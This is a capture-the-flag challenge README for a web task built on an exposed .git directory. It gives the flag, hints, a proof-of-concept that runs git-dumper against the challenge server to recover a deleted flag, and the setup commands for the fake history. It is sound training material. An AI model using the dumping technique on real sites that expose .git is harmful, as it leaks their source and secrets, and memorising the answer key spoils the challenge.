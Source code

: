 | metadata | <> |
|--- | --- |
| Developer Name(s) | Dean |
| Best Contact Slack handle / Email address | sysop.host@gmail.com/sysop_host (WACTF Slack) |
| Challenge Category | Web |
| Challenge Tier | 0 |
| Challenge Type | Container|

| Player facing | <> |
|--- | --- |
|Challenge Name | Git good |
|Challenge Description | You really have to be good to git this flag. Note: A small amount of directory bruteforcing is required for this challenge. http://web-0 |
|Challenge Hint 1 | Common wordlists will find the thing |
|Challenge Hint 2 | You better git dumping that thing you found |

| Admin Facing | <> |
|--- | --- |
|Challenge Flag| WACTF{isnt_git_great} |
|Challenge Vuln| Templated web app with `.git` dir present in `/env/.git`. A basic blacklist has been set to require challenge players to configure their chosen dir-bustering tool with the requisite user-agent option. Within the git repo is a flag that has been added and removed, and has been followed by a bunch of other commits just to fill out the log. |
|Docker Usage Idle | 2% CPU / 15MB RAM |
|Docker usage Expected Peak | 20% CPU / 20MB RAM |

---

Challenge PoC

1. Run `python3 git-dumper.py http://challenge.server/env/.git/ ./some_output_dir` (script located [here](https://github.com/arthaud/git-dumper))
2. `cd some_output_dir`
3. `git checkout b97c2a177567ae7d55eb12c3b65a6b74b1198d0a`
4. `cat flag.txt`

---

## Setup Info (if recreating the git repo)

### Create git repo with faked history

Do this inside `/env`

```
git init
git config user.name wactf
git config user.email wactf@capture.tf/
npx fake-git-history --startDate "2020/09/01" --endDate "2020/09/26"
echo "<FLAG CONTENT>" > flag.txt
git add flag.txt
git commit --date 2020/09/26 -m "flag create"
git rm flag.txt
git commit --date 2020/09/27 -m "flag delete"
npx fake-git-history --startDate "2020/09/27" --endDate "2020/10/15"
```
